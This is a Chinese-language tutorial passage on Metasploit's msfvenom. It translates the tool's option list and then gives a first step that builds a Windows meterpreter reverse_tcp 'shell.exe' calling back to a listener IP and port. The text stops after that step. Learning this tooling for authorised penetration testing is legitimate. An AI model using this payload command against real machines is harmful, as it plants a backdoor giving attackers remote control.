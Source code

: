 > 
 msfvenom是msfpayload,msfencode的结合体
可利用msfvenom生成木马程序，并在目标机上执行，在本地监听上线


---


---


## 二、命令参数

> 

<pre><code>选项：
    -l, --list            &lt;type&gt;        # 列出所有可用的项目，其中值可以被设置为 					payloads, encoders, nops, platforms, archs, encrypt, formats等等
    -p, --payload         &lt;payload&gt;     # 指定特定的 Payload，如果被设置为 - ，那么从			标准输入流中读取
        --list-options                  # 列出--payload &lt;value&gt; 的标准，高级和规避选			项
    -f, --format          &lt;format&gt;      # 指定 Payload 的输出格式(使用 --list 			formats 列出)
    -e, --encoder         &lt;encoder&gt;     # 指定使用的 Encoder (使用 --list encoders 			列出)
        --sec-name        &lt;value&gt;       # 生成大型Windows二进制文件时使用的新名称。默认			值：随机4个字符的字符串
        --smallest                      # 使用所有可用的编码器生成最小的payload
        --encrypt         &lt;value&gt;       # 应用于shellcode的加密或编码类型 (使用--list 			encrypt 列出)
        --encrypt-key     &lt;value&gt;       # 用于加密的密钥
        --encrypt-iv      &lt;value&gt;       # 加密的初始化向量
    -a, --arch            &lt;arch&gt;        # 指定目标系统架构(使用 --list archs  列出)
        --platform        &lt;platform&gt;    # 指定目标系统平台 (使用 --list platforms 列			出)
    -o, --out             &lt;path&gt;        # 保存payload文件
    -b, --bad-chars       &lt;list&gt;        # 设置需要在 Payload 中避免出现的字符，如： 			'\x00\xff'
    -n, --nopsled         &lt;length&gt;      # 指定 nop 在 payload 中的数量
    -s, --space           &lt;length&gt;      # 设置未经编码的 Payload 的最大长度
        --encoder-space   &lt;length&gt;      # 编码后的 Payload 的最大长度
    -i, --iterations      &lt;count&gt;       # 设置 Payload 的编码次数
    -c, --add-code        &lt;path&gt;        # 指定包含一个额外的win32 shellcode文件
    -x, --template        &lt;path&gt;        # 指定一个特定的可执行文件作为模板
    -k, --keep                          # 保护模板程序的功能，注入的payload作为一个新的			进程运行
    -v, --var-name        &lt;value&gt;       # 指定一个变量名（当添加 -f 参数的时候，例如 -f 			python，那么输出为 python 代码， payload 会被按行格式化为 python 代码，追加到			一个 python变量中，这个参数即为指定 python 变量的变量名）
    -t, --timeout         &lt;second&gt;      # 设置从STDIN读取payload的等待时间（默认为			30,0为禁用）
    -h, --help                          # 帮助
</code></pre>




---


---


## 三、使用方法：

> 
（以Windows为例）
<h3>3.1、第一步：生成shell.exe</h3>
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.190.131 LPORT=9999 -f exe -o /root/shell.exe
